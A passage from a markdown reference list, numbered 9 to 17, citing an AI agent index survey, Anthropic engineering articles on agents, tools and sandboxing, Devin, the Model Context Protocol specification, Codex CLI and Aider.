9. **"The 2025 AI Agent Index"** — MIT (2026). Surveys 30 deployed agents' safety features — only 3/30 CLI agents require explicit confirmation for file edits. [arxiv.org/abs/2602.17753](https://arxiv.org/abs/2602.17753)

### Engineering References

10. **"Building Effective Agents"** — Anthropic (2024). Foundational reference for the augmented-LLM building block, workflow patterns, and the complexity ladder. [anthropic.com/research/building-effective-agents](https://www.anthropic.com/research/building-effective-agents)

11. **"Writing Effective Tools for AI Agents"** — Anthropic Engineering (2025). Practical guidance on tool-description engineering — applicable to designing write_file, delete_file, and execute_shell schemas. [anthropic.com/engineering/writing-tools-for-agents](https://www.anthropic.com/engineering/writing-tools-for-agents)

12. **"Making Claude Code More Secure and Autonomous"** — Anthropic Engineering (2025). How Claude Code uses OS-level sandboxing for filesystem and network isolation — reduces permission prompts by 84%. [anthropic.com/engineering/claude-code-sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing)

13. **"Effective Harnesses for Long-Running Agents"** — Anthropic Engineering (2025). Patterns for agents working across multiple context windows with file-based state persistence. [anthropic.com/engineering/effective-harnesses-for-long-running-agents](https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents)

14. **"Introducing Devin, the First AI Software Engineer"** — Cognition Labs (2024). Agent operating in a self-contained sandbox with shell, code editor, and browser. [cognition.ai/blog/introducing-devin](https://cognition.ai/blog/introducing-devin)

### Protocols & Tools

15. **"Model Context Protocol Specification"** — Anthropic / MCP Project (2025). The open protocol for exposing tools/resources/prompts to agents. [modelcontextprotocol.io/specification/2025-11-25](https://modelcontextprotocol.io/specification/2025-11-25)

16. **"Codex CLI"** — OpenAI (2025). Open-source terminal coding agent with a permission model. [github.com/openai/codex](https://github.com/openai/codex)

17. **"Aider: AI Pair Programming in Your Terminal"** — Paul Gauthier. Terminal coding agent with multiple file-edit formats, auto git commits, and lint-after-edit. [aider.chat](https://aider.chat/)